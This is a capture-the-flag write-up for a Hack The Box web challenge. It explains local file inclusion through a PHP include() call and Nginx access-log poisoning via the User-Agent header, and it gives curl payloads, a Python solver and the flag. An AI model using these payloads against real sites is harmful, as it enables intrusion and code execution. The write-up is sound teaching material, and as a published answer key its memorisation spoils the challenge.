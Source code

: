 # [__Landing__](#)

### Description:

* The home page for the Impossible Mission Force Agency was created by a newly-hired intern. Can you check it out and make sure it's secure?

### Objective:

* Exploit a Local File Inclusion vulnerability in the URL field and make use of the Nginx logs to inject PHP code into `access.log` and acquire the flag.

### Difficulty:

* `Easy`

### Flag:

* `HTB{m1ss10n_4c0mpl1sh3d}`

### Challenge:

![web](assets/web.png)

Upon accessing the webpage we notice that we are redirected to `/?page=home.php`.
From [index.php](challenge/index.php) we see that `include($_GET['page'])` is used to dynamically load the web pages.
```php
<?php
if ($_GET['page']) {
    include($_GET['page']);
} else {
    header("Location: /?page=home.php");
}
```
This code is potentially vulnerable to a Local File Inclusion. To test whether this is true, alter the `page` parameter to `/?page=/etc/passwd`.

![passwd](assets/passwd.png)

The `passwd` file is successfully loaded and the vulnerability is verified. 

From the [Dockerfile](challenge/Dockerfile) and [entrypoint.sh](challenge/entrypoint.sh) we see that the flag is copied to the root directory and a random character sequence is appended to its name.
```bash
COPY flag /flag
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /flag /flag$FLAG
```

In order to get the flag let's test if we have permissions to read the `Nginx` access logs by navigating to `/?page=/var/log/nginx/access.log`.

![nginx](assets/nginx.png)

The log file is successfully retrieved. We can exploit the LFI vulnerability by altering the `User-agent` HTTP header and injecting PHP code. Upon loading the access log again the code will be executed, giving us Remote Code Execution on the system. To this end `cURL` can be used.

```bash
curl -v localhost:1337 -H "User-Agent: <?php phpinfo() ?>"
```
![phpinfo](assets/phpinfo.png)

The `phpinfo()` function is successfully executed and the PHP information is visible on the page.  Send the following requests to retrieve the flag.
```bash
curl -v localhost:1337 -H "User-agent: <?php system('cat /flag*')"
curl localhost:1337/?page=/var/log/nginx/access.log | grep HTB{ 
```
The flag is returned in the command output.
```
172.17.0.1 - 302 "GET / HTTP/1.1" "-" "HTB{m1ss10n_4c0mpl1sh3d}"
```

### Solver:

```python
import requests, re

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={"page": "/var/log/nginx/access.log"}, headers={"User-agent": "<?php system('cat /flag*'); ?>"})
r = requests.get(HOST, params={"page": "/var/log/nginx/access.log"})

flag = re.search("HTB{(.*)}", r.text)
print(flag.group(0))
```
